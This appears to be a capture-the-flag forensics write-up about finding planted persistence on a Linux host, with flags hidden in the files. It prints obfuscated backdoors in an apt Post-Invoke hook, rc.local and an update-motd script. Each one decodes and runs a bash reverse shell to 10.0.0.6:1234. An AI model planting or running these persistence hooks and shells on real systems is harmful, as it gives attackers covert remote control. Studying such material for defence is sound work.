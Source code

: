 - /etc/apt/apt.conf.d

```bash
/etc/apt/apt.conf.d
cat 100holdon    
#TDNha3s0cDdfSW41NzQxMV81aDMxMX0=
DPKG::Post-Invoke {"file=$(echo 'YmFja2Rvb3Iuc2g='|base64 -d); echo 'IyEvYmluL2Jhc2gKL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC42LzEyMzQgMD4mMQo=' |base64 -d > /tmp/$file;chmod +x /tmp/$file;/tmp/$file";};
```

- init.d

```bash
bash S01stillhere.sh start
L3ak{initd_2_b0075}
```


- rc.local

```bash
cat rc.local 
#!/bin/bash

ENCODED_ArcaneGate_PATH="L3RtcC9iYWNrZG9vci5zaA=="
ArcaneGate_PATH=$(echo "$ENCODED_ArcaneGate_PATH" | base64 --decode)
ArcaneGate_BASE64='IyEvYmluL2Jhc2gKL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC42LzEyMzQgMD4mMQo='

# Check if the ArcaneGate script exists, if not, recreate it from the Base64 string
if [ ! -f "$ArcaneGate_PATH" ]; then
    echo "ArcaneGate script not found, recreating..."
    echo "$ArcaneGate_BASE64" | base64 --decode > "$ArcaneGate_PATH"
    chmod +x "$ArcaneGate_PATH"
fi

# The Specter that Steers Your Spirit
## In the shadowed alcoves of ancient libraries where the whispers of the past linger like morning fog,
## there lies a tome, bound not in leather but in the mysteries of the ether itself.
## The first chapter, "The Specter that Steers Your Spirit," reveals how one may
## summon and commune with the ghostly essences that drift through the veils of our world. 
## TDNha3tyY19sMGM0bF8wbl9iMDB0fQ==

# Execute the ArcaneGate script
"$ArcaneGate_PATH"

exit 0
```

- /etc/update-motd.d/00-header

```bash
cat /etc/update-motd.d/00-header

#!/bin/sh
[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
  # Fall back to using the very slow lsb_release utility
  DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

echo '2f746d702f6261636b646f6f722e73682026' | xxd -r -p | bash
# echo '4c33616b7b35683331315f30665f3768335f4434797d0a' | xxd -r -p
```